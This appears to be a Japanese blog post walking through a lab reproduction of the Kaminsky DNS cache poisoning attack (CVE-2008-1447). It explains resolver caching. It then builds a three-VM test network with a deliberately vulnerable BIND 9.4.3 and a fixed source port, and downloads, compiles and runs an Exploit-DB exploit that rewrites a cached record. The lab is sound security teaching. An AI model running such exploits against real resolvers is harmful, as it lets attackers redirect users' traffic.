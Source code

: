 ```yaml
---
layout: post
title:  "DNSキャッシュポイズニング"
date:   2018-08-21
permalink: /security/:title
categories: Attack&Defense
tags: DNS PWN CVE-2008-1447 CVE-2008-4194
excerpt: DNSキャッシュポイズニングのハンズオンシナリオです
mathjax: false
---
```


* content
{:toc}

## 攻撃の概要

### キャッシュの仕組み
DNSキャッシュサーバ自身はゾーンファイルを保持しない。
問い合わせに応じて権威DNSサーバに問い合わせた結果をそのまま返す。
この時取得したレコードはキャッシュに保存される。
キャッシュが破棄される前に同じ問い合わせがあった場合は権威DNSサーバに問い合わせずに結果を返す。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns002.png)

### 階層構造の仕組み
ある権威DNSサーバの管理下に無いドメインの問い合わせは別の権威DNSサーバにリダイレクトされる。
権威DNSサーバはadditionalレコードに別の権威DNSサーバのホスト名とIPアドレスを指定してリゾルバに返す。
リゾルバはこれを参照して別の権威DNSサーバに問い合わせる。
これを繰り返すことでDNSの階層構造が実現される。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns003.png)

### 攻撃の仕組み

攻撃対象ドメインに存在しないホストの名前解決をリクエストしてから、権威DNSサーバの応答よりも早く偽の応答を送り付ける。
偽の応答のadditionalレコードには権威DNSサーバとして攻撃対象ホストと偽のIPアドレスを指定する。
脆弱性のあるDNSキャッシュサーバはadditionalレコードの情報をキャッシュするので、これ以降のwww.sample.localの名前解決には100.100.100.100が返される。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns004.png)

攻撃の詳細はJPRSの[Kaminsky Attackの全て][Kaminsky Attackの全て]を参照

## サーバ構築

3台のCentOS7でPoC環境を構築する。

![]({{site.baseurl}}/images/dns-cache-poizoning/env.png)

個々のサーバを構築する前によく使うツールを全てのホストに入れておくこと。

```bash
# yum install -y vim wget gcc bind-utils
```

### 権威DNSサーバ
named.confの記述
```bash
# vim /etc/named.conf

options {
  directory "/var/named";
  pid-file  "/run/named/named.pid";
  listen-on port 53 { any; };
  allow-query       { any; };
};
zone "sample.local" IN {
  type master;
  file "sample.local.zone";
};
```

zoneファイルの記述
```bash
# vim /var/named/sample.local.zone

@     IN    SOA    sample.local. root.sample.local. (
                   2018062901
                   60
                   60
                   60
                   60
                   )
;
      IN    NS     ns.sample.local.
;
      IN    MX     0 mail.sample.local
;
ns    IN    A      172.16.0.3
www   IN    A      172.16.0.100
mail  IN    A      172.16.0.100
```

攻撃を成功させやすくするためにNICに200msの遅延を設定
```bash
# tc qdisc add dev enp0s8 root netem delay 200ms
```

サービス起動
```bash
# systemctl start named
```

### DNSキャッシュサーバ
デフォルトのnamedを削除して脆弱性のあるバージョン9.4.3をソースからインストールする
```bash
# yum -y remove bind
# wget https://ftp.isc.org/isc/bind9/9.4.3/bind-9.4.3.tar.gz
# tar zxvf bind-9.4.3.tar.gz
# cd bind-9.4.3
# ./configure
# make
# make install
```
起動スクリプトの作成
```bash
# vim /usr/lib/systemd/system/named.service

[Unit]
Description=Berkeley Internet Name Domain (DNS)

[Service]
Type=forking
PIDFile=/run/named/named.pid

ExecStartPre=/bin/bash -c 'if [ ! "$DISABLE_ZONE_CHECKING" == "yes" ]; then /usr/local/sbin/named-checkconf -z /etc/named.conf; else echo "Checking of zone files is disabled"; fi'

ExecStart=/usr/local/sbin/named -u named $OPTIONS

ExecReload=/bin/sh -c '/usr/local/sbin/rndc reload > /dev/null 2>&1 || /bin/kill -HUP $MAINPID'

ExecStop=/bin/sh -c '/usr/local/sbin/rndc stop > /dev/null 2>&1 || /bin/kill -TERM $MAINPID'

PrivateTmp=true

[Install]
WantedBy=multi-user.target
```
named.confの作成

権威DNSサーバにソースポート10000で問い合わせるようにする
```bash
# vim /etc/named.conf

options {
  directory "/var/named";
  pid-file "/run/named/named.pid";
  listen-on port 53 { any; };
  allow-query { any; };
  forwarders { 172.16.0.3; };
  query-source address * port 10000;
  recursion yes;
};
```

pidファイルの所有権を変更する
```bash
# useradd named
# chown named:named /run/named
```

サービス起動
```bash
# systemctl daemon-reload
# systemctl start named
```
### 攻撃サーバ
CVE-2008-1447/CVE-2008-4194のエクスプロイトコードをコンパイルする
```bash
# wget https://www.exploit-db.com/download/6130.c
# yum install -y libdnet-devel
# ln -s /usr/include/dnet.h /usr/include/dumbnet.h
# gcc -o kaminsky-attack 6130.c `dnet-config --libs` -lm
```

## 攻撃
sample.localのDNSキャッシュサーバを攻撃してwwwのキャッシュを1.2.3.4に書き換える
```bash
# ./kaminsky-attack 172.16.0.1 172.16.0.2 172.16.0.3 10000 www sample.local. 1.2.3.4 8192 16
```
キャッシュが1.2.3.4に書き換えられた事を確認する
```bash
# dig @172.16.0.2 www.sample.local
```

裏でどんなパケットが飛んでいて、サーバのログには何が残っているのか確認しておくと良い。

## 参考情報
- [JPRS](https://jprs.jp/glossary/index.php?ID=0228)
- [Kaminsky Attackの全て][Kaminsky Attackの全て]
- [Exploit-DB](https://www.exploit-db.com/exploits/6130/)

[Kaminsky Attackの全て]: https://www.nic.ad.jp/ja/materials/iw/2008/proceedings/H3/IW2008-H3-07.pdf
